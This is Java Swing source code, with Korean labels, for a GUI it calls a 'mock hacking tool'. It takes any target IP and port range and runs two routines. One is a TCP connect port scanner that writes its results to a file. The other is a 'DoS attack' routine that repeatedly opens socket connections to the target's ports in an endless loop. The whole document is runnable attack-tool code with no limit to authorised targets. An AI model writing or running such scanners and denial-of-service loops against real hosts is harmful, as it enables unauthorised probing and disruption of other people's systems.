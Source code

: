 // 메인 코드
import javax.swing.SwingUtilities;

public class Main {
    public Main() {
    }

    public static void main(String[] args) {
        SwingUtilities.invokeLater(() -> (new HackingToolFrame()).setVisible(true));
    }
}

// 주요 코드
import java.awt.BorderLayout;
import java.awt.FlowLayout;
import java.awt.event.ActionEvent;
import java.awt.event.ActionListener;
import java.io.FileWriter;
import java.io.IOException;
import java.net.Socket;
import java.util.List;
import javax.swing.JButton;
import javax.swing.JFrame;
import javax.swing.JLabel;
import javax.swing.JOptionPane;
import javax.swing.JPanel;
import javax.swing.JScrollPane;
import javax.swing.JTextArea;
import javax.swing.JTextField;
import javax.swing.SwingUtilities;
import javax.swing.SwingWorker;

public class HackingToolFrame extends JFrame {
    private JTextField inputTextField;
    private JTextField portRangeStartField;
    private JTextField portRangeEndField;
    private JTextArea outputArea;
    private JButton attackButton;
    private JButton dosButton;

    public HackingToolFrame() {
        this.setTitle("모의 해킹툴");
        this.setSize(700, 500);
        this.setDefaultCloseOperation(3);
        this.setLayout(new BorderLayout());
        JPanel topPanel = new JPanel();
        topPanel.setLayout(new FlowLayout());
        JLabel targetLabel = new JLabel("대상 IP");
        this.inputTextField = new JTextField(15);
        JLabel startPortLabel = new JLabel("포트 시작");
        this.portRangeStartField = new JTextField(5);
        JLabel endPortLabel = new JLabel("포트 끝");
        this.portRangeEndField = new JTextField(5);
        this.attackButton = new JButton("포트 스캔 시작");
        this.dosButton = new JButton("DoS 공격 시작");
        topPanel.add(targetLabel);
        topPanel.add(this.inputTextField);
        topPanel.add(startPortLabel);
        topPanel.add(this.portRangeStartField);
        topPanel.add(endPortLabel);
        topPanel.add(this.portRangeEndField);
        topPanel.add(this.attackButton);
        topPanel.add(this.dosButton);
        this.add(topPanel, "North");
        this.outputArea = new JTextArea();
        this.outputArea.setEditable(false);
        JScrollPane scrollPane = new JScrollPane(this.outputArea);
        this.add(scrollPane, "Center");
        this.attackButton.addActionListener(new ActionListener() {
            public void actionPerformed(ActionEvent e) {
                HackingToolFrame.this.startPortScan();
            }
        });
        this.dosButton.addActionListener(new ActionListener() {
            public void actionPerformed(ActionEvent e) {
                HackingToolFrame.this.startDosAttack();
            }
        });
    }

    private void startPortScan() {
        final String target = this.inputTextField.getText();
        String startPortStr = this.portRangeStartField.getText();
        String endPortStr = this.portRangeEndField.getText();
        if (!target.isEmpty() && !startPortStr.isEmpty() && !endPortStr.isEmpty()) {
            final int startPort;
            final int endPort;
            try {
                startPort = Integer.parseInt(startPortStr);
                endPort = Integer.parseInt(endPortStr);
                if (startPort < 0 || endPort > 65535 || startPort > endPort) {
                    throw new NumberFormatException("포트 번호가 유효하지 않습니다.");
                }
            } catch (NumberFormatException var7) {
                JOptionPane.showMessageDialog(this, "올바른 포트 번호를 입력해주세요.");
                return;
            }

            this.outputArea.setText("");
            this.outputArea.append("포트 스캔 시작: " + target + "\n");
            (new SwingWorker<Void, String>() {
                protected Void doInBackground() throws Exception {
                    for(int port = startPort; port <= endPort; ++port) {
                        try {
                            this.publish(new String[]{"포트 " + port + " 스캔 중..."});
                            Socket socket = new Socket(target, port);
                            socket.close();
                            this.publish(new String[]{"포트 " + port + " ※열림※"});
                        } catch (Exception var3) {
                            this.publish(new String[]{"포트 " + port + " 닫힘"});
                        }

                        Thread.sleep(200L);
                    }

                    return null;
                }

                protected void process(List<String> chunks) {
                    for(String chunk : chunks) {
                        HackingToolFrame.this.outputArea.append(chunk + "\n");
                    }

                }

                protected void done() {
                    HackingToolFrame.this.outputArea.append("포트 스캔 완료!\n");

                    try (FileWriter writer = new FileWriter("port_scan_results.txt")) {
                        writer.write(HackingToolFrame.this.outputArea.getText());
                    } catch (IOException var6) {
                        JOptionPane.showMessageDialog(HackingToolFrame.this, "파일 저장 중 오류 발생.");
                    }

                }
            }).execute();
        } else {
            JOptionPane.showMessageDialog(this, "모든 필드를 입력해주세요.");
        }
    }

    private void startDosAttack() {
        final String target = this.inputTextField.getText();
        String startPortStr = this.portRangeStartField.getText();
        String endPortStr = this.portRangeEndField.getText();
        if (!target.isEmpty() && !startPortStr.isEmpty() && !endPortStr.isEmpty()) {
            final int startPort;
            final int endPort;
            try {
                startPort = Integer.parseInt(startPortStr);
                endPort = Integer.parseInt(endPortStr);
                if (startPort < 0 || endPort > 65535 || startPort > endPort) {
                    throw new NumberFormatException("포트 번호가 유효하지 않습니다.");
                }
            } catch (NumberFormatException var7) {
                JOptionPane.showMessageDialog(this, "올바른 포트 번호를 입력해주세요.");
                return;
            }

            this.outputArea.setText("");
            this.outputArea.append("DoS 공격 시작: " + target + "\n");
            (new SwingWorker<Void, String>() {
                protected Void doInBackground() throws Exception {
                    for(int port = startPort; port <= endPort; ++port) {
                        try {
                            while(true) {
                                this.publish(new String[]{"포트 " + port + "에 연결 시도 중..."});
                                Socket socket = new Socket(target, port);
                                socket.close();
                                Thread.sleep(200L);
                            }
                        } catch (IOException var3) {
                            this.publish(new String[]{"포트 " + port + "에 대한 DoS 공격 실패"});
                        }
                    }

                    return null;
                }

                protected void process(List<String> chunks) {
                    for(String chunk : chunks) {
                        HackingToolFrame.this.outputArea.append(chunk + "\n");
                    }

                }

                protected void done() {
                    HackingToolFrame.this.outputArea.append("DoS 공격 완료!\n");
                }
            }).execute();
        } else {
            JOptionPane.showMessageDialog(this, "모든 필드를 입력해주세요.");
        }
    }

    public static void main(String[] args) {
        SwingUtilities.invokeLater(() -> (new HackingToolFrame()).setVisible(true));
    }
}
